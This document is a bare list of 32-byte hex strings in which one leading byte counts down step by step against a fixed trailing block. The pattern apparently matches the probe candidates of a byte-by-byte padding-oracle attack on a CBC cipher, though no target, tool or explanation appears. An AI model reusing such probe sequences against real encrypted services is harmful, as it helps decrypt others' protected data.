000000c2cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c1cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000c0cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000bfcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000becc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000bdcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000bccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000bbcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000bacc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b9cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b8cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b7cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b6cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b5cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b4cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b3cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b2cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b1cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000b0cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000afcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000aecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000adcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000accc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000abcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000aacc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a9cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a8cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a7cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a6cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a5cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a4cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a3cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a2cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a1cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
000000a0cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000009fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000009ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000009dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000009ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000009bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000009acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000099cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000098cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000097cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000096cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000095cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000094cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000093cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000092cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000091cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000090cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000008fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000008ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000008dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000008ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000008bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000008acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000089cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000088cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000087cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000086cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000085cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000084cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000083cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000082cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000081cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000080cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000007fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000007ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000007dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000007ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000007bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000007acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000079cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000078cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000077cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000076cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000075cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000074cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000073cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000072cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000071cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000070cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000006fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000006ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000006dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000006ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000006bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000006acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000069cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000068cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000067cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000066cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000065cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000064cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000063cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000062cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000061cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000060cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000005fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000005ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000005dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000005ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000005bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000005acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000059cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000058cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000057cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000056cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000055cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000054cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000053cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000052cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000051cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000050cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000004fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000004ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000004dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000004ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000004bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000004acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000049cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000048cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000047cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000046cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000045cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000044cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000043cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000042cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000041cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000040cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000003fcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000003ecc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000003dcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000003ccc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000003bcc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000003acc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000039cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000038cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000037cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000036cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000035cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
00000034cc80affe2ecb8e02ef03a3fb77eb9f8779eeda009e2365505fa7e3d6
0000ff37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000fe37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000fd37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000fc37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000fb37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000fa37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f937cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f837cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f737cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f637cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f537cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f437cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f337cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f237cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f137cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000f037cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ef37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ee37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ed37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ec37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000eb37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ea37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e937cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e837cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e737cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e637cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e537cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e437cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e337cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e237cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e137cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000e037cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000df37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000de37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000dd37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000dc37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000db37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000da37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d937cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d837cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d737cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d637cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d537cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d437cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d337cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d237cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d137cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000d037cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000cf37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ce37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000cd37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000cc37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000cb37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ca37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c937cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c837cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c737cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c637cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c537cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c437cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c337cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c237cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c137cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000c037cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000bf37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000be37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000bd37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000bc37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000bb37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
0000ba37cf83acfd2dc88d01ec00a0f877eb9f8779eeda009e2365505fa7e3d6
00ffbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00febb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00fdbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00fcbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00fbbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00fabb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f9bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f8bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f7bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f6bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f5bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f4bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f3bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f2bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f1bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00f0bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00efbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00eebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00edbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00ecbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00ebbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00eabb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e9bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e8bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e7bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e6bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e5bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e4bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e3bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e2bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e1bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00e0bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00dfbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00debb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00ddbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00dcbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00dbbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00dabb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d9bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d8bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d7bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d6bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d5bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d4bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d3bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d2bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d1bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00d0bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00cfbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00cebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00cdbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00ccbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00cbbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00cabb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c9bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c8bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c7bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c6bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c5bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c4bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c3bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c2bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c1bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00c0bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00bfbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00bebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00bdbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00bcbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00bbbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00babb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b9bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b8bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b7bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b6bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b5bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b4bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b3bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b2bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b1bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00b0bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00afbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00aebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00adbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00acbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00abbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00aabb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a9bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a8bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a7bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a6bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a5bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a4bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a3bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a2bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a1bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
00a0bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
009fbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
009ebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
009dbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
009cbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
009bbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
009abb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0099bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0098bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0097bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0096bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0095bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0094bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0093bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0092bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0091bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
0090bb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
008fbb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
008ebb36ce82adfc2cc98c00ed01a1f977eb9f8779eeda009e2365505fa7e3d6
